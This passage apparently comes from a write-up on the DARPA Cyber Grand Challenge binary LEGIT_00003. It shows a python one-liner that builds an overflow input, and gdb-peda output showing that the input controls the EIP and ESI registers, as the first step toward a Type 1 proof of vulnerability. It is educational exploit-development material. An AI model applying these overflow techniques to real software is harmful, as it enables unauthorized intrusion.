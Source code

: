 Additional to just "control" of that register, it must have data independent to the EIP. So if somehow we overwrote both EIP and another register's contents with the same 32 bits, well we need to try harder. In our case everything is 0x42424242 so we need to refine a little bit to check.


```
vagrant@crs:~/LEGIT_00003$ uname -a
Linux crs 3.13.11-ckt21-cgc #1 SMP Mon Feb 29 16:42:11 UTC 2016 i686 GNU/Linux
vagrant@crs:~/LEGIT_00003$ python -c 'print "1\n"+"A"*32+"\xd0\xae\xaa\xba"+"B"*4+"C"*4+"D"*4+"E"*10'
1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЮ��BBBBCCCCDDDDEEEEEEEEEE
vagrant@crs:~/LEGIT_00003$ python -c 'print "1\n"+"A"*32+"\xd0\xae\xaa\xba"+"B"*4+"C"*4+"D"*4+"E"*10' > badstr.txtvagrant@crs:~/LEGIT_00003$ gdb -q ./legit_00003 
Reading symbols from ./legit_00003...(no debugging symbols found)...done.
gdb-peda$ r < badstr.txt 
Starting program: /home/vagrant/LEGIT_00003/legit_00003 < badstr.txt

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x30 ('0')
EBX: 0x0 
ECX: 0xbaaaae41 --> 0x41414100 ('')
EDX: 0xbaaaae44 ('A' <repeats 29 times>, "Ю\252\272BBBBCCCCDDDD")
ESI: 0x42424242 ('BBBB')
EDI: 0x0 
EBP: 0x43434343 ('CCCC')
ESP: 0xbaaaaf3c --> 0xbaaaaf82 --> 0x0 
EIP: 0x44444444 ('DDDD')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x44444444
[------------------------------------stack-------------------------------------]
0000| 0xbaaaaf3c --> 0xbaaaaf82 --> 0x0 
0004| 0xbaaaaf40 --> 0x2 
0008| 0xbaaaaf44 --> 0xa ('\n')
0012| 0xbaaaaf48 --> 0x0 
0016| 0xbaaaaf4c --> 0x0 
0020| 0xbaaaaf50 --> 0x0 
0024| 0xbaaaaf54 --> 0x0 
0028| 0xbaaaaf58 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x44444444 in ?? ()

```


Ok so we now know exactly where we control EIP, and ESI and each is independant from the other. So we have the basis of our proof. Now to writing the PoV.

Starting with an example is always handy, however "cfepov" format examples demonstrating Type1 vulnerabilities are pretty hard to come by. I ended up <a href="https://github.com/CyberGrandChallenge/pov-xml2c/blob/master/tests/min_read_t1.povxml" target="_blank">starting with this template</a>:
